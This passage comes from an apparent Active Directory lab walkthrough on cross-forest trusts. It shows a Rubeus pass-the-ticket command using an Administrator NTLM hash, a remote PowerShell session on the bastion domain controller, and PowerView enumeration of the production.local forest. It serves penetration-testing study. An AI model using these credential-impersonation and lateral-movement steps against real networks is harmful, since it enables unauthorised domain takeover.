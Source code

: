 - From [[2. Lab Walkthrough/1st Forest (techcorp.local)/1. us.techcorp.local/1. Domain Enumeration|1. Domain Enumeration]] we discovered that the `bastion.local` Forest has a One-Way, Transitive, Inbound Forest Trust with the `production.local` Forest. This means that `bastion.local` is the trusteed domain and `production.local` is the trusting domain, so members of `bastion.local` can access resources on `production.local` but NOT the other way around.
- Since the `bastion.local` and `production.local` forests have a transitive trust, all domains inside those forests will inherit this trust but it DOES NOT extend to any other forests, such as `techcorp.local`.
- Moreover, since `production.local` is unreachable from our forest, `techocorp.local`, we will have to access `bastion.local` to enumerate the target domain and find possible ways to escalate our privileges there. This time, we will need to impersonate a domain user of `bastion.local`, since domain users of the `techcorp.local` forest are not trusteed entities in the target domain.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:Administrator /rc4:f29207796c9e6829aa1882b7cccfa36d /domain:bastion.local /dc:bastion-dc.bastion.local /ptt

<snip>

PS C:\Auditor> winrs -r:bastion-dc.bastion.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
#### Current Forest
```powershell
PS C:\Windows\Tasks> Get-Forest -Forest production.local
Get-Forest -Forest production.local


RootDomainSid         : S-1-5-21-1765907967-2493560013-34545785
Name                  : production.local
Sites                 : {Default-First-Site-Name}
Domains               : {production.local}
GlobalCatalogs        : {Production-DC.production.local}
ApplicationPartitions : {DC=DomainDnsZones,DC=production,DC=local, DC=ForestDnsZones,DC=production,DC=local}
ForestModeLevel       : 7
ForestMode            : Unknown
RootDomain            : production.local
Schema                : CN=Schema,CN=Configuration,DC=production,DC=local
SchemaRoleOwner       : Production-DC.production.local
NamingRoleOwner       : Production-DC.production.local
```
#### Forest Trusts
```powershell
PS C:\Windows\Tasks> Get-ForestTrust -Forest production.local
Get-ForestTrust -Forest production.local


TopLevelNames            :
ExcludedTopLevelNames    :
TrustedDomainInformation :
SourceName               : production.local
TargetName               : bastion.local
TrustType                : Forest
TrustDirection           : Outbound
```
#### Current Domain
```powershell
PS C:\Windows\Tasks> Get-Domain -Domain production.local
Get-Domain -Domain production.local


```